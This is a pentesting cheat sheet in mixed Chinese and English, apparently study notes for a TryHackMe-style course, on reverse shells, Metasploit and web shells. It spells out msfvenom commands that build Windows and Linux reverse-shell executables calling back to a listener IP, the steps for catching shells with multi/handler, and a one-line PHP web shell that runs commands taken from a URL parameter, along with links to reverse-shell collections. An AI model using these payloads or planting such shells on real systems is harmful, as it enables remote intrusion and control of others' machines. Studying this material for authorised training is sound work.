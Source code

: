 			--> Reverse Shell Cheat Sheet :
				--> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Msfvenom : 用於動態產生有效負載
			--> type : .exe .aspx .war .py
			--> msfvenom -p <PAYLOAD> <OPTIONS>
			
			-->  Windows x64 反向 Shell .exe
				--> msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
				--> -f <輸出格式> | -o <輸出位置和檔案名稱> | LHOST= <IP> | LPORT= <連接埠>
			
			--> Linux x64 反向 Shell .elf
	 			--> msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443 
	 			
			--> 分階段 Staged 
				--> stager 直接在伺服器本身上執行的一段程式碼。它連接回等待偵聽器 並不包含任何反向 shell 程式碼
				--> 特殊的偵聽器－通常是Metasploit multi/handler
				
			--> 無階段Stageless : 更容易被防毒或入侵偵測程式發現和刪除
			
			--> Meterpreter shell : 在處理 Windows 目標時非常有用
			
			--> 命名系統 Payload Naming Conventions : 
				--> <OS>/<arch>/<payload> 
					--> e.g linux/x86/shell_reverse_tcp -- x86 Linux目標產生無階段反向 shell 。
					--> e.g windows/shell_reverse_tcp --Windows 32 位元目標
				--> 為正常 (x64)
				
				--> Stageless payloads 	: 以底線 (_) 表示 	-- linux/x86/meterpreter_reverse_tcp
				--> Staged payloads  	: 以正斜線 (? ) 表示 	-- windows/x64/meterpreter/reverse_tcp
			
			--> 除了msfconsole手冊頁之外	
				--> msfvenom --list payloads | grep "" 以搜尋特定的一組有效負載
				
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Metasploit  
			--> msfconsole
			--> use exploit/multi/handler : 用於接收反向shell
			--> show options
			--> set payload、LHOST 和 LPORT
			--> exploit -j 啟動該模組，作為後台作業運行
			--> sessions 1再次將其置於前台運行
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> WebShells
			--> 上傳可執行檔的網站
			--> https://tryhackme.com/r/room/uploadvulns
			
			--> <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
				--> url?cmd=command 
			
			--> Linux  : 	
				--> /usr/share/webshells
				--> PentestMonkey php-reverse-shell
				--> https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
			